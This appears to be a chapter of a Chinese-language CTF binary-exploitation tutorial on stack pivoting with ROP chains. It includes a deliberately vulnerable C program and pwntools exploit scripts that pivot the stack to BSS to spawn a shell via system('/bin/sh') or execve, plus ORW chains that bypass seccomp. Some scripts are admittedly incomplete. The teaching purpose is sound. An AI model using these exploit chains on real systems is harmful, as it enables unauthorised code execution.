

## 案例六：ROP链 + 栈迁移（Stack Pivoting）

### 场景还原：当栈空间成为瓶颈

在CTF比赛和真实漏洞利用中，你经常会遇到这样的困境：程序存在栈溢出漏洞，但溢出空间极其有限——可能只有8字节、16字节，甚至只有4字节。这点空间连一个完整的`pop rdi; ret` + `system("/bin/sh")`链都放不下，更别说复杂的多步ROP链了。

栈迁移（Stack Pivoting）正是为解决这一问题而生的高级技术。它的核心思想是：**既然当前栈上空间不够，就把整个栈搬到一个我们控制的、空间充裕的地方去。**

本案例将从一个真实的漏洞程序出发，完整演示栈迁移的原理、实现步骤、常见变体，以及在实际CTF和真实环境中可能遇到的各种坑。

---

### 漏洞程序

以下是本案例使用的完整漏洞程序源码：

```c
// vuln_pivot.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// BSS段上的全局缓冲区，空间充裕
char global_buf[512];

void vuln() {
    char buf[8];           // 栈上仅有8字节的局部缓冲区
    printf("Input: ");
    read(0, buf, 64);      // 可以溢出56字节，但去掉saved RBP后只剩48字节
}

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    vuln();
    return 0;
}
```

编译命令：

```bash
gcc -o vuln_pivot vuln_pivot.c -fno-stack-protector -no-pie -z execstack -z norelro
# -fno-stack-protector  关闭栈保护（无Canary）
# -no-pie               固定基址（便于演示，真实场景需要处理ASLR）
# -z execstack          栈可执行（简化场景，实际场景通常NX）
# -z norelro            关闭RELRO（简化GOT访问）
```

看起来56字节的溢出空间似乎够用？让我们算一下实际可用空间：

```text
布局：buf[8] + padding + saved RBP(8) + 返回地址(8)
实际可控的ROP空间 = 56 - 8(buf) - 8(saved RBP) = 40字节 = 5个8字节槽位
```

如果ROP链需要超过5个gadget（例如`execve("/bin/sh", NULL, NULL)`需要6-7个gadget），就装不下了。更何况在更极端的场景中，read只允许写入8-16字节，空间更是捉襟见肘。

---

### 栈迁移的原理

#### 核心机制：`leave; ret` 指令

栈迁移的关键在于x86/x64架构中函数返回时的两条指令。理解`leave; ret`的精确语义是掌握栈迁移的前提。

```asm
leave   ; 等价于: mov rsp, rbp    （将RBP的值赋给RSP，即RSP指向旧RBP的位置）
        ;         pop rbp          （将栈顶内容弹出到RBP，RSP上移8字节）
        ; 等价于: mov rsp, rbp; pop rbp

ret     ; 等价于: pop rip          （将栈顶内容弹出到RIP，跳转执行）
```

注意：大多数编译器生成的函数尾部使用`leave; ret`而非单独的`ret`，这是栈迁移能够成立的根本原因。

#### 攻击者的控制点

当发生栈溢出时，攻击者可以覆写两个关键位置：

| 位置 | 正常值 | 攻击者覆写为 |
|------|--------|-------------|
| saved RBP | 函数调用者的栈帧指针 | 新栈地址（如BSS段某处） |
| 返回地址 | 函数的下一条指令地址 | `leave; ret` gadget的地址 |

覆写后的执行流程：

```text
原始栈：
┌────────────────────────┐  低地址
│      buf[0..7]         │
├────────────────────────┤
│   padding/溢出数据      │
├────────────────────────┤
│ saved RBP → 覆写为BSS地址│  ← rbp 指向这里
├────────────────────────┤
│ ret addr → leave_ret    │  ← 执行到函数尾部时 rip 指向这里
├────────────────────────┤
│         ...            │
└────────────────────────┘  高地址

执行leave指令：
  mov rsp, rbp    →  RSP = RBP（指向saved RBP的位置）
  pop rbp         →  RBP = [RSP]（RBP被设为我们写入的BSS地址）
                     RSP += 8（指向返回地址）

执行ret指令：
  pop rip         →  RIP = [RSP]（跳转到leave_ret gadget）
                     RSP += 8

再次执行leave：
  mov rsp, rbp    →  RSP = RBP（此时RBP已被设为BSS地址！）
                     RSP 指向了BSS段！
  pop rbp         →  RBP = [BSS]（从BSS上取值赋给RBP）
                     RSP += 8

再次执行ret：
  pop rip         →  从BSS段上取值作为返回地址
                     开始在BSS段上执行ROP链！
```

mermaid图：



---

### 完整利用脚本

#### 分析阶段：定位关键地址

```bash
# 查找leave; ret gadget
ROPgadget --binary vuln_pivot --only "leave|ret"
# 输出示例: 0x0000000000401158 : leave ; ret

# 查找pop rdi; ret（用于ROP链）
ROPgadget --binary vuln_pivot --only "pop|ret"
# 输出示例: 0x00000000004012a3 : pop rdi ; ret

# 确认BSS段地址
readelf -S vuln_pivot | grep bss
# 输出示例: [25] .bss  NOBITS  0000000000404040  00003040  00000220

# 确认global_buf地址（需要nm或GDB）
nm vuln_pivot | grep global_buf
# 输出示例: 0000000000404800 D global_buf
```

#### 利用脚本：两阶段攻击

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

elf = ELF('./vuln_pivot')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./vuln_pivot')

# ========== 关键地址 ==========
leave_ret   = 0x401158           # leave; ret gadget
bss_addr    = 0x404800           # global_buf在BSS段上的地址
pop_rdi_ret = 0x4012a3           # pop rdi; ret
# BSS段需要16字节对齐，选一个偏移位置
new_stack   = bss_addr + 0x200   # 新栈基址（留出空间给ROP链）

# ========== 第一阶段：向BSS写入ROP链 ==========
# 方法：利用程序中某个任意写原语（如格式化字符串、read循环等）
# 本例中，假设vuln函数的read可以分两次调用（真实场景中通常需要其他写原语）
# 这里我们用一个简化的思路：利用栈上已有的空间先写BSS

# 实际CTF中常见的写BSS方法：
# 1. 格式化字符串漏洞的%n写入
# 2. 程序中的read(0, global_buf, ...)调用
# 3. 程序中的strcpy/strncpy等函数
# 4. 通过一次溢出先调用read往BSS写数据，再触发栈迁移

# 模拟场景：假设程序有一个write_to_bss的功能可以利用
# 真实场景中这一步取决于具体程序

# 这里我们直接构造一个完整示例（简化版，假设可以直接写BSS）
system_addr = libc.symbols['system']       # 真实场景需要泄露libc
bin_sh_addr = next(libc.search(b'/bin/sh'))

# 在BSS上布置的ROP链
rop_chain  = p64(0)               # 被pop rbp消耗
rop_chain += p64(pop_rdi_ret)
rop_chain += p64(bin_sh_addr)
rop_chain += p64(system_addr)

# 先将ROP链写入BSS（方法取决于具体程序）
# 假设可以通过read(0, bss_addr, len)写入
# 在真实CTF中，这一步可能需要通过格式化字符串、堆利用等方式完成

# ========== 第二阶段：触发栈迁移 ==========
# 溢出vuln的buf，覆写saved RBP和返回地址
payload  = p64(new_stack)          # 覆写saved RBP为新栈地址
payload += p64(leave_ret)          # 返回地址改为leave_ret

p.sendafter(b'Input: ', payload)

# 执行流程：
# 1. vuln函数返回，执行leave: mov rsp, rbp; pop rbp
#    - RSP被设为new_stack（我们控制的BSS地址）
#    - RBP从new_stack处取值
# 2. 执行ret: 从new_stack处取返回地址（即ROP链的第一个gadget）
# 3. 开始执行BSS上的ROP链

p.interactive()
```

---

### 两种常见场景：先写后迁 vs 一次完成

#### 场景A：两步法（先写BSS，再迁移）

这是最常见的场景：程序存在两个漏洞——一个可以往BSS写数据，另一个可以触发栈溢出。

```python
from pwn import *

p = process('./vuln_two_vulns')
elf = ELF('./vuln_two_vulns')

bss_addr    = 0x404800
leave_ret   = 0x401158
pop_rdi_ret = 0x4012a3

# 第一步：通过格式化字符串/任意写，把ROP链写到BSS上
# 假设程序有一个格式化字符串漏洞
rop_chain  = p64(pop_rdi_ret)
rop_chain += p64(bss_addr + 0x100)   # 指向"/bin/sh"字符串
rop_chain += p64(elf.plt['system'])

# 通过格式化字符串逐字节写入（简化示意）
# 实际需要分多次%n写入

# 第二步：触发栈溢出 + 栈迁移
payload  = p64(bss_addr) + p64(leave_ret)
p.send(payload)
p.interactive()
```

#### 场景B：一次法（利用栈上已有数据）

当程序只有一次溢出机会，但read的字节数大于8字节时，可以在栈上同时布置"BSS上的数据"和"迁移触发器"。

```python
from pwn import *

p = process('./vuln_pivot')
elf = ELF('./vuln_pivot')

leave_ret   = 0x401158
bss_addr    = 0x404800
new_stack   = bss_addr + 0x200
pop_rdi_ret = 0x4012a3

# 关键思路：第一次溢出后，程序可能执行某些操作后再read
# 在这期间，利用第一个read写入BSS的地址处的数据
# 实际中需要程序流程的配合

# 一个巧妙的变体：利用栈迁移跳转到栈自身更高的位置
# 当read可以读取较多次但每次空间有限时：
# 第一次read: 写ROP链到高地址（利用buf之后的空间）
# 第二次read: 触发栈迁移，将RSP指向ROP链位置
```

---

### 栈迁移的多种触发方式

#### 方法一：`leave; ret`（最常用）

```python
# 覆写saved RBP + 返回地址
payload = p64(new_stack) + p64(leave_ret)
```

原理：`leave`指令将RBP赋值给RSP，再pop RBP。由于RBP已被覆写为新栈地址，RSP随即指向新位置。

适用条件：程序使用`leave; ret`返回（几乎所有x86/x64程序默认都使用）。

#### 方法二：`add rsp, N; ret`（部分迁移）

```python
# 当只能覆写返回地址时，通过调整栈指针移动到更高地址
# 适用于：saved RBP不可写，但栈上某个更高位置可控
payload = p64(add_rsp_ret)  # add rsp, 0x108; ret
```

适用条件：栈上某个偏移位置的数据可控，但无法覆盖saved RBP。

#### 方法三：`mov rsp, rbp; ret`（与leave等效的第一步）

某些编译器或优化级别下，`leave`指令被拆开：

```asm
mov rsp, rbp    ; 将RBP赋给RSP
pop rbp         ; 弹出saved RBP
ret
```

如果能找到单独的`mov rsp, rbp; ret` gadget，效果类似但不完全等价——RBP不会被更新。

#### 方法四：利用`__libc_csu_init`的gadget链

```python
# ret2csu中有一组可以间接控制RSP的gadget
# 适用于：程序中找不到直接的leave; ret gadget
# 需要通过rbx/rbp的控制来间接实现
```

#### 方法五：利用信号处理（Sigreturn辅助）

```python
# SROP的SigreturnFrame可以同时设置所有寄存器，包括RSP
# 将RSP设为目标地址，实现栈迁移
frame = SigreturnFrame()
frame.rsp = new_stack
frame.rip = next_gadget
```

---

### 迁移目标的选择

| 迁移目标 | 地址获取 | 可写性 | 大小 | ASLR | 适用场景 |
|---------|---------|--------|------|------|---------|
| BSS段 | 固定（-no-pie）/ 泄露（PIE） | 可写 | 较大 | 无 | 最常用，空间充裕 |
| 堆 | malloc返回值泄露 | 可写 | 很大 | 有 | BSS不可用时的替代 |
| mmap区域 | 泄露mmap地址 | 可写 | 任意大 | 有 | 程序使用mmap分配内存 |
| 栈自身高地址 | 计算偏移 | 可写 | 有限 | 有 | 空间不足但可以分段布置 |
| GOT表 | 固定/泄露 | 可写（关闭RELRO时） | 小 | 无 | 极端情况，不推荐 |

#### BSS段的选择

```bash
# 查看BSS段信息
readelf -S vuln_pivot | grep -A1 bss
# .bss  NOBITS  0000000000404040  00003040  00000220

# 确保选择的地址：
# 1. 对齐到16字节（某些gadget如movaps要求栈16字节对齐）
# 2. 不在程序使用的变量附近（避免破坏程序数据）
# 3. 距离BSS起始地址有足够偏移（避免覆盖关键全局变量）
```

#### 堆地址的获取

```python
# 方法一：泄露堆地址（通过格式化字符串/信息泄露）
p.send(b'%p.%p.%p...')
# 找到堆地址（通常以0x55或0x56开头）

# 方法二：通过malloc的返回值
# 如果程序中有malloc调用，可以通过泄露其返回值得到堆地址

# 方法三：利用unsorted bin的fd/bk指针
# 泄露main_arena地址，再计算堆地址
```

---

### 常见陷阱与调试技巧

#### 陷阱一：16字节对齐问题

```python
# 错误：BSS地址未对齐
new_stack = 0x404803  # 未对齐！

# 正确：确保16字节对齐
new_stack = 0x404800  # 已对齐
# 或
new_stack = 0x404810  # 已对齐

# 对齐检查
assert new_stack % 16 == 0, "Stack must be 16-byte aligned!"
```

在Ubuntu 18.04+上，`movaps`指令（glibc中system等函数内部使用）要求栈地址16字节对齐，否则会触发SIGSEGV。

#### 陷阱二：`leave`破坏了新栈上的数据

```python
# leave指令的pop rbp会从新栈上取一个值赋给RBP
# 这意味着新栈上的第一个8字节会被"消耗"！

# 正确的BSS上ROP链布局：
# [padding for pop rbp]  ← 第一个8字节，会被pop rbp消耗
# [gadget1_addr]         ← ret取这个作为返回地址
# [gadget1的参数]         ← 紧随其后
# ...

new_stack_layout  = p64(0)               # 被pop rbp消耗
new_stack_layout += p64(pop_rdi_ret)     # 第一个执行的gadget
new_stack_layout += p64(bin_sh_addr)
new_stack_layout += p64(system_addr)
```

#### 陷阱三：新栈地址处数据未初始化

```python
# 如果BSS段上没有预先写入ROP链，leave后RSP指向的是一片随机数据
# 程序会尝试将这些数据当作gadget地址执行，导致SIGSEGV

# 调试方法：在GDB中观察迁移后的RSP值
# gdb-peda$ b *vuln+XX   (在leave指令处下断点)
# gdb-peda$ si           (单步执行leave)
# gdb-peda$ x/16gx $rsp  (查看新栈上的内容)
```

#### 陷阱四：GOT表中的地址被破坏

```python
# 如果ROP链写入BSS时覆盖了GOT表附近的地址
# 后续调用libc函数时会跳转到错误地址

# 调试方法：
# gdb-peda$ got          (查看GOT表状态)
# 确保ROP链写入的位置远离GOT区域
```

#### 调试工作流

```bash
# 1. 确认溢出偏移
gdb-peda$ pattern_create 100
# 输入后观察RBP被覆写的值
gdb-peda$ pattern_offset $rbp

# 2. 确认leave_ret gadget
ROPgadget --binary vuln_pivot --only "leave|ret"

# 3. 确认新栈地址空间足够
readelf -S vuln_pivot | grep bss
# 计算BSS大小，确保有足够空间

# 4. 单步跟踪栈迁移过程
gdb-peda$ b *vuln+XX    # 在leave指令前下断点
gdb-peda$ c
gdb-peda$ si             # 执行leave
gdb-peda$ p $rsp         # 确认RSP是否指向BSS
gdb-peda$ p $rbp         # 确认RBP是否为预期值
gdb-peda$ si             # 执行ret
gdb-peda$ p $rip         # 确认是否跳转到BSS上的ROP链

# 5. 检查新栈内容
gdb-peda$ x/16gx $rsp    # 查看ROP链是否正确
```

---

### 进阶：栈迁移的组合技术

#### 组合一：栈迁移 + ret2libc

当程序没有`system`函数且BSS空间足够时，先泄露libc地址，再在BSS上构造ret2libc链：

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./vuln_pivot')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./vuln_pivot')

leave_ret   = 0x401158
bss_addr    = 0x404800
new_stack   = bss_addr + 0x200
pop_rdi_ret = 0x4012a3

# 假设已经通过某个漏洞泄露了libc地址
# libc_base = leaked_addr - offset
libc_base = 0x7ffff7dc0000  # 示例值
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

# BSS上的ROP链：system("/bin/sh")
# 注意：需要先写入BSS（通过格式化字符串或其他方式）
# 这里假设已经写好了

# 触发栈迁移
payload = p64(new_stack) + p64(leave_ret)
p.sendafter(b'Input: ', payload)
p.interactive()
```

#### 组合二：栈迁移 + ret2syscall

当libc不可用时，使用syscall直接获取shell：

```python
# 在BSS上布置的syscall链
rop_chain  = p64(0)                    # pop rbp消耗
rop_chain += p64(pop_rax_ret) + p64(59)  # rax = 59 (execve)
rop_chain += p64(pop_rdi_ret) + p64(bin_sh_addr)
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(syscall_ret)
```

#### 组合三：多次栈迁移

在某些极端场景下，一次栈迁移不够——可能需要先迁移到一个中间位置，再迁移到最终目标：

```python
# 第一次迁移：从栈 → BSS中间位置
# 在BSS中间位置布置第二次迁移的触发器
payload1 = p64(bss_mid) + p64(leave_ret)

# 第二次迁移：从BSS中间 → BSS最终位置（存放完整ROP链）
payload2 = p64(bss_final) + p64(leave_ret)
# bss_final处存放完整的ROP链
```

适用场景：BSS中间位置有其他写入原语可用，但直接写最终位置不可行。

#### 组合四：栈迁移 + ORW（绕过沙箱）

当seccomp禁止execve时，可以用栈迁移将ROP链搬到BSS上执行open-read-write：

```python
# BSS上的ORW链
rop_chain  = p64(0)                      # pop rbp消耗

# open("flag", O_RDONLY)
rop_chain += p64(pop_rdi_ret) + p64(flag_addr)
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2)
rop_chain += p64(syscall_ret)

# read(fd, buf, size)
rop_chain += p64(pop_rdi_ret) + p64(3)
rop_chain += p64(pop_rsi_ret) + p64(bss_buf)
rop_chain += p64(pop_rdx_ret) + p64(0x100)
rop_chain += p64(pop_rax_ret) + p64(0)
rop_chain += p64(syscall_ret)

# write(1, buf, size)
rop_chain += p64(pop_rdi_ret) + p64(1)
rop_chain += p64(pop_rsi_ret) + p64(bss_buf)
rop_chain += p64(pop_rdx_ret) + p64(0x100)
rop_chain += p64(pop_rax_ret) + p64(1)
rop_chain += p64(syscall_ret)
```

---

### 实战中的变体与应对

#### 变体一：PIE开启时的栈迁移

```python
# PIE开启后，BSS地址未知，需要先泄露程序基址
# 常见泄露方法：
# 1. 格式化字符串泄露某个已知函数的返回地址
# 2. 利用栈上残留的地址信息

# 泄露后计算BSS地址
elf_base = leaked_addr - elf.symbols['known_func'] - offset
bss_addr = elf_base + elf.bss()
new_stack = bss_addr + 0x200
```

#### 变体二：32位程序的栈迁移

```python
# 32位程序使用ESP/EBP，指针大小为4字节
payload = p32(new_stack) + p32(leave_ret)

# leave指令在32位下等价于：mov esp, ebp; pop ebp
# 原理完全相同，只是指针从8字节变为4字节
```

#### 变体三：栈迁移目标在堆上

```python
# 当BSS不可用时（空间不足或被保护），迁移到堆上
# 需要泄露堆地址

# 通过格式化字符串泄露堆地址
# 或通过unsorted bin泄露main_arena地址

heap_addr = leaked_heap + 0x20   # 偏移到已写入数据的位置
payload = p64(heap_addr) + p64(leave_ret)
```

#### 变体四：ROPgadget找不到`leave; ret`

```python
# 某些程序（特别是静态编译的）可能没有现成的leave; ret
# 替代方案：
# 1. 手动搜索字节序列: c9 c3 (leave; ret的机器码)
import subprocess
result = subprocess.run(
    ['ROPgadget', '--binary', 'vuln', '--only', 'leave|ret'],
    capture_output=True, text=True
)
print(result.stdout)

# 2. 使用ROPgadget的--depth参数增加搜索深度
# ROPgadget --binary vuln --depth 5

# 3. 使用ropper工具替代
# ropper -f vuln --search "leave"

# 4. 手动在.text段搜索c9 c3字节序列
```

---

### 不同编译选项对栈迁移的影响

| 编译选项 | 对栈迁移的影响 | 应对策略 |
|---------|-------------|---------|
| -fno-stack-protector | 无Canary，最简单 | 直接覆写RBP和返回地址 |
| -fstack-protector | 有Canary，需要先泄露 | 通过格式化字符串等方式泄露Canary |
| -no-pie | 固定地址，BSS位置已知 | 直接使用固定BSS地址 |
| -pie | 地址随机化 | 先泄露程序基址再计算BSS |
| -z noexecstack | 栈不可执行 | 栈迁移本身不受影响，ROP在BSS上执行 |
| -z norelro | GOT可写 | 可以考虑将GOT作为迁移目标（不推荐） |
| -z relro | GOT只读 | 避免使用GOT区域 |
| -z now (Full RELRO) | GOT完全不可写 | 不影响栈迁移，但限制了其他技术 |

---

### 总结

栈迁移是PWN利用中一项不可或缺的核心技术，其适用场景远比你想象的更广泛。在实际CTF比赛中，栈迁移经常与其他技术组合出现：

- **栈迁移 + ret2libc**：空间不足时的经典组合
- **栈迁移 + ret2syscall**：无libc可用时的替代方案
- **栈迁移 + ORW**：沙箱环境下的绕过手段
- **栈迁移 + 堆利用**：当BSS不可用时迁移到堆上
- **多次栈迁移**：复杂场景下的分步跳板

掌握栈迁移的关键在于理解`leave; ret`指令的精确语义，以及BSS/堆等目标区域的特性。调试时务必使用GDB单步跟踪每一条指令对寄存器的影响，确保栈指针和返回地址与预期一致。

***
